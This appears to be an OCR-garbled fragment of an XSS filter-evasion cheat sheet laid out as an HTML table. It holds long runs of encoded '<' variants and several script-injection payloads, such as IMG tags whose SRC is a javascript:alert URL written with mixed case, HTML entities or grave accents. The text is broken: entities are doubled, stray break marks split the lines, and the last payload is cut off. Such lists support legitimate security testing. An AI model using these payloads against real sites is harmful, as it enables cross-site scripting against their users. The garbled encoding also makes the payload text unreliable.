 &amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
 »
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt »
;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp; »
lt;

&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt;
&amp;lt »
;
&amp;lt;
\x3c
\x3C
\u003c
\u00 »
3C</pre>
</td>
<td>
<div>&lt;%3C&amp; lt&lt;&amp; LT&amp; LT;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt;&lt; \x3c \x3C \u003c \u003C</div></td>
</tr>
<tr>
<td>Case Insensitive</td>
<td>
<pre>&lt;IMG »
SRC=JaVaScRiPt:alert('XSS')&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>HTML Entities</td>
<td>
<pre>&lt;IMG »
SRC=javascript:alert(&amp;quot;X »
SS&amp;quot;)&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Grave Accents</td>
<td>
<pre>&lt;IMG »
SRC=`javascript:alert("RSnak »
